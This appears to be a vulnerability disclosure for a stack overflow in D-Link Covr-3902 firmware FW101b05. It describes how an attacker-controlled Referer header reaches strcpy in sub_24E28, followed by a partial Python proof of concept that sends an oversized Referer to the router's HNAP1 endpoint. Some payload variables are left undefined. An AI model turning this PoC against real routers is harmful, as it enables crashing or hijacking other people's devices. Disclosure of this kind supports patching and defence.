


# Covr-3902 stack overflow vulnerability
## Overview
Manufacturer's website:[http://www.dlink.com.cn/](http://www.dlink.com.cn/)
Firmware download website:[http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902)
## Affected version
FW101b05
## Vulnerability details
In the function `sub_24E28`, the `HTTP_REFERER` is obtained through an environment variable, and this field is controllable, allowing it to be used as the value for `src`.

When the field value does not match the field within the program, it enters the `else` branch.

The stack overflow is achieved through the `strcpy` function, which overwrites the return address, and the address is controllable.

## POC
```python
import requests
from pwn import *
payload = (
    b"http://192.168.0.1/SystemPayload"
    + payload_value
    + p32(0xdeadbeef)
    + payload_value2
    + p32(0xdeadbeef)
    + p32(0xdeadbeef)
    + cyclic(0x400)
)
# URL encode the payload to make it safe for use in the Referer header
burp0_url = "http://192.168.0.1:80/HNAP1/"
burp0_cookies = {"uid": "YAQEECTwfI"}
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "text/xml; charset=utf-8",
    "SOAPAction": "\"http://purenetworks.com/HNAP1/GetDeviceFeatureAlpha\"",
    "HNAP_AUTH": "6E2565C8AE7008FF550E57BEB55A8FEE 1723345713",
    "Content-Length": "318",
    "Adcheck": "65535",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": payload  
}
response = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
print("Response Status Code:", response.status_code)
print("Response Content:", response.text)
```
